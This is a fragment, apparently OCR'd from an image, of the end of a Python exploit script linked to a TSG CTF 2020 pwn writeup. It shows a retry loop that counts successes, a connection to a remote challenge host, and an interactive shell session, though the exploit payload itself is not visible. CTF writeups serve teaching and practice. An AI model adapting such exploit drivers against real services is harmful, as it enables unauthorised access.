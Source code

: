 ```python  
                   print("\n***** NOW SUCCESS NUM: {} ******\n".format(hex(total_success + 1)))  
                   total_try += try_count  
                   try_count = 0  
                   total_success += 1  
                   start_time = time.time()  
                   if total_success >= 0x10:  
                       print("\n\n\nTotal {} Success in {} Try. Total Time: {} sec\n\n\n".format(hex(total_success),hex(total_try),time.time()-init_time))  
                       exit()  
                   else:  
                       continue  
               else:  
                   c.interactive()  
                   exit()

   else:  
       c = remote(rhp2['host'],rhp2['port'])

   exploit()  
   c.interactive()  
```

Original writeup (https://github.com/tsg-
ut/tsgctf2020/blob/master/pwn/rachell/WRITEUP.md).